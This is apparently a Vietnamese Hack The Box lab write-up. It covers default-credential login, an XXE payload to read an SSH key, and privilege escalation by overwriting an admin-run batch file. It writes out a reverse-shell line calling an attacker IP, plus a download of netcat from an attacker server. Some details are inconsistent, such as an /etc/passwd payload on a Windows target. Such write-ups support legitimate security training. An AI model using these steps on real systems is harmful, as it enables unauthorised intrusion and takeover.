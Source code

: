 ![image](https://github.com/user-attachments/assets/db6f4da9-539a-4b4d-a801-06ab982506b7)- ip: 10.129.229.142 
- scan nmap: nmap -sC -Pn -A 'ip' trong đó -A là quét hệ điều hành

  ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5a6f6d94-7ec6-458b-b9b5-273598c8a0d1)

- Task 1: What version of Apache is running on the target's port 80?:  Apache/2.4.41


![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/e0c867e6-b3f1-49e4-84d4-7b6f4765135d)

- Tiến hành nhập thử: admin:password được luôn
- Task 2: What username:password combination logs in successfully? admin:password 

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/817f7d9d-1add-42bd-bc94-72e4f63c6f19)

- Task 3: What is the word at the top of the page that accepts user input? order

-Task 4: What XML version is used on the target? 1.0

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/482bbfc1-3a12-4145-aac6-dd739ba0513e)

- Bật burp suite bắt request. Thì thấy ngay phiên bản là 1.0
- Task 5: What does the XXE / XEE attack acronym stand for?: XML External Entity
- (https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
- trong khi quét nmap ta nhận biết được hệ điều hành của mục tiêu là windowns 10
- Ta sẽ sử dụng <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]> để lấy file rsa của daniel. Thư mục C:\Users\your_username\.ssh\.
- 
![image](https://github.com/user-attachments/assets/d41997f3-657d-41b8-9e86-2b5159921c65)

![image](https://github.com/user-attachments/assets/1cee386d-6bb9-49a8-9059-2d15b43da55b)

![image](https://github.com/user-attachments/assets/51234349-f114-45fc-8a8e-cc63c76a3672)

- Tạo 1 file id_rsa copy đoạn mã vào rồi tiến hành kết nối ssh.
![image](https://github.com/user-attachments/assets/e302ab0c-2a64-4727-a59d-fa17a35ca3e6)

![image](https://github.com/user-attachments/assets/9e90d411-276b-4cef-a292-66faddcfa0a3)

- Task 7 What is the file located in the Log-Management folder on the target? job.bat 
![image](https://github.com/user-attachments/assets/3b112583-9fde-473d-8c4b-db6ac7797043)
- Ta thấy chữ wevtutil. Sau khi xem quyền hạn của file john.bat.
- User có quyền chỉnh sửa, tệp này được thực thi bởi quản trị viên. Tiến hành mở xem cách tiến trình đang chạy.
![image](https://github.com/user-attachments/assets/31fbffd6-091c-4773-b122-7911d22fe0fc)

- Tiến trình wevtutil.exe đang được chạy. Ta sẽ sửa nó.
- Task 8: What executable is mentioned in the file mentioned before?  wevtutil.exe
- Ta tạo 1 kết nối từ máy daniel sang máy tấn công.
![image](https://github.com/user-attachments/assets/4d746d3b-9408-4c1e-8a21-ab2be0155ab7)

- Không kết nối được internet.
-  https://github.com/rahuldottech/netcat-for-windows/releases/nc64.exe
- rồi mở server của máy tấn công python 3 -m http.server 80
- chạy lệnh wget http://ip/nc64.exe  -outfile nc64.exe lên máy daniel

![image](https://github.com/user-attachments/assets/6ec054cc-4750-4c72-af2a-cd756d92209d)

- echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.23 1289 > C:\Log-Management\job.bat
- lệnh này sẽ chỉnh sửa tệp john.bat đang được chạy. Sử dụng nc để kết nối tới máy Daniel

- ![image](https://github.com/user-attachments/assets/f483ec10-2377-4af6-9c33-005fbe2889cb)
- cd C:\Users\Administrator\Desktop. type root.txt
- Flag: f574a3e7650cebd8c39784299cb570f8
